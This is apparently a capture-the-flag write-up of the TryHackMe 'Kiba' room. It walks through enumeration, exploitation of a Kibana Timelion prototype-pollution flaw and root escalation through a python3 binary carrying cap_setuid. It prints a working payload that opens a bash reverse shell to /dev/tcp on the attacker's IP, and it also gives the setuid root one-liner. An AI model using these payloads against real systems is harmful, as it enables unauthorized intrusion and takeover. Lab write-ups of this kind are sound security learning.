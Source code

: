 ```yaml
---
layout: post
title:  "THM - Kiba"
date:   2020-08-29 00:00:00 +1000
category: hacking
---
```


## Introduction
*Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.*

Alrighty; easy rated.

## Nmap
We've got four ports: SSH on 22 and HTTP on 80, plus two mystery ports in 5044 and 5601.

## Port 80
There's nothing much on the front page on Port 80 except some ASCII art and a cryptic message; nothing extra in the page source. Time to gobuster:

``
root@kali:/opt/tryhackme/kiba# gobuster dir -u http://10.10.19.10 -w /usr/share/dirb/wordlists/common.txt
``

Nothing. Let's try another port, but we'll come back to this if necessary.

## Port 5601
Visting it in the browser we find another HTTP site running **kibana**; I guess this is what we're after based on the title.

This machine is quite 'hand-holding' because the questions ask about finding a CVE for the version, so we know there is a readily available exploit. I looked at a couple of sources, the main one was [here](https://slides.com/securitymb/prototype-pollution-in-kibana) but also this [github repo](https://github.com/mpgn/CVE-2019-7609) explains it too.

Essentially it's go to the **Timelion** tab, enter the exploit code, hit play and then go to the **Canvas** tab and wait for your shell. Opening Canvas spawns a new process, and the exploit code pollutes the prototypes if I've understood this correctly.

My exploit code was:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.10.123/1234 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

## On the box
As our user (kiba) we have access to the user flag. The THM page now hints that we're looking at capabilities for exploit - look, it's short enough that I'll just show it here:

{% highlight shell %}
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null  
getcap -r / 2>/dev/null  
/home/kiba/.hackmeplease/python3 = cap_setuid+ep  
/usr/bin/mtr = cap_net_raw+ep  
/usr/bin/traceroute6.iputils = cap_net_raw+ep  
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep  
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
whoami
root
cd /root
cat root.txt
THM{FLAG_WENT_HERE}
{% endhighlight %}

And that was that.
